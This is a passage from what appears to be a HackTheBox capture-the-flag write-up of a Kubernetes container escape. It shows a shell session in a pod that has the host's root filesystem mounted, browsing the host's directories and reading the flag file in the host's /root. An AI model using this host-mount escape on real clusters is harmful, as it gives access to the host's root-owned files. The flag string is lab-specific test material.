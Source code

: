 Since we mounted the host’s `/` to our pod’s `/root`, let’s explore `/root` from that new pod:

```
bash-4.4# cd /root
cd /root
bash-4.4# ls
ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
bash-4.4# cd root
cd root
bash-4.4# ls
ls
flag.txt
snap
bash-4.4# cat flag.txt
cat flag.txt
HTB{ph4LL_7HRU_d1M3n510N_0f_p0d5}
```

